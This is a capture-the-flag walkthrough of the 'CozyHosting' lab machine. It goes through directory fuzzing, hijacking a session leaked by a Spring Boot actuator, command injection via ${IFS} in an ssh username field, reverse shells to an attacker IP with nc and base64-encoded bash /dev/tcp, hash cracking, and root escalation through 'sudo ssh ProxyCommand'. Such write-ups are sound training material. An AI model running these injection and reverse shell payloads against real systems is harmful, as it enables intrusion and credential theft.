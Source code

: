 # CozyHosting

## nmap scan 

## Exploration

- go to login page

- double-click in box and see previously entered usernames

- play around with subdirectories and generate whitelabel error page or find with ffuf/gobuster/dirbuster

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://cozyhosting.htb/FUZZ`

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 84ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 81ms]
index                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 107ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 73ms]
logout                  [Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 72ms]
render/https://www.google.com [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 270ms]
:: Progress: [4715/4715] :: Job [1/1] :: 293 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

- This indicates spring boot might be in use 

## Bypass authentication with cookie hijacking

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ`

```

       /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/spring-boot.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 131ms]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 143ms]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 146ms]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 170ms]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 174ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 165ms]
actuator/sessions       [Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 159ms]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 250ms]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 187ms]
:: Progress: [112/112] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
- navigate to `actuator/sessions`

- reveals cookie for k.anderson

- paste cookie value in and navigate to /admin for admin portal access

- mess around with ssh connection and we can get interesting output such as SSH usage...it appears parameteres are being passed directly to bash

```
http://cozyhosting.htb/admin?error=usage:%20ssh%20[-46AaCfGgKkMNnqsTtVvXxYy]%20[-B%20bind_interface]%20%20%20%20%20%20%20%20%20%20%20[-b%20bind_address]%20[-c%20cipher_spec]%20[-D%20[bind_address:]port]%20%20%20%20%20%20%20%20%20%20%20[-E%20log_file]%20[-e%20escape_char]%20[-F%20configfile]%20[-I%20pkcs11]%20%20%20%20%20%20%20%20%20%20%20[-i%20identity_file]%20[-J%20[user@]host[:port]]%20[-L%20address]%20%20%20%20%20%20%20%20%20%20%20[-l%20login_name]%20[-m%20mac_spec]%20[-O%20ctl_cmd]%20[-o%20option]%20[-p%20port]%20%20%20%20%20%20%20%20%20%20%20[-Q%20query_option]%20[-R%20address]%20[-S%20ctl_path]%20[-W%20host:port]%20%20%20%20%20%20%20%20%20%20%20[-w%20local_tun[:remote_tun]]%20destination%20[command%20[argument%20...]]
```

## Achieve foothold via shell injection

can't produce output but can we nc to our machine

in the username field:
`;nc${IFS}10.10.14.21${IFS}4444;`

cli output to nc
`;ls${IFS}|${IFS}nc${IFS}10.10.14.21${IFS}4444;`

echo 'bash -i >& /dev/tcp/10.10.14.21/4444 0>&1' | base64

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMS80NDQ0IDA+JjEK

let's try to get a reverse connection
`;nc${IFS}-c${IFS}'bin/sh${IFS}-i${IFS}2>&1'${IFS}10.10.14.21${IFS}4444;`

;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTo0NDQ0IDA+JjEK"${IFS}|${IFS}base64%{IFS}-d${IFS}|${IFS}bash;

;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMS80NDQ0IDA+JjEK"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;


who's home? 

```
ls /home
josh
```
grab the jar

```
nc shell
python3 -m http.server 9999
```

attacker
```
wget http://cozyip:9999/cloudhosting-0.0.1.jar

jd-gui cloudhosting-0.0.1.jar
```

find postgres creds in BOOT-INF > Classes > static.assets > application.properties

## Get credentials for user Josh

login in to psql 

```
psql -h localhost -U postgres -p 5432
\l
\c cozyhosting
\dt
\d users
select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

copy admin hash and crack with hashcat

```
hashcat --identify '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
The following 3 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                        | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                      | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                    | Forums, CMS, E-Commerce
```

```
sudo ./hashcat -m 3200 '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' /usr/share/wordlists/rockyou.txt

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

## Log into SSH as user Josh

```
ssh josh@cozyhosting.htb

cat user.txt
87f8e68fc366698d37229530127257f2
```

## Privesc to Root

```
sudo -l
```

josh can run ssh as root

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

cat root.txt
d2fd53b5157aedbe5ae6e4cc97a79d3f
```




